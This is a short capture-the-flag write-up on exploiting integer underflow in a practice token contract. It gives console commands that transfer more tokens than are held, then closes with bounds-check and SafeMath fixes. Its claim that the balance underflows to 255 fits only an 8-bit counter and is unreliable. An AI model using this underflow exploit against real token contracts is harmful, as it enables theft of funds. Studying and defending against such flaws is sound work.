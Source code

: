 ### Task

>The goal of this level is for you to hack the basic token contract below.
>
>You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

### Observations

This contract is susceptible to overflow and underflow attacks.

There is no condition/safemath functions/check before performing mathematical calculations.

Therefore to expoit this contract, I need to transfer more tokens than I have.

### Steps

Find out how many tokens I have. 
```await contract.balanceOf(player)```

I have 20. So transfer 21 or more tokens to any address.
```await contract.transfer('0x69F1977310B0c02248D631671AF7211E2e175937', 21)```

Check balance again as the underflow should set my balance to 255.
```await contract.balanceOf(player)```

Easy to avoid over/underflow exploits by using a condition such as:
```
if(a + c > a) {
  a = a + c;
}
```
Or OpenZeppelin SafeMath lib:
```
a = a.add(c);
```
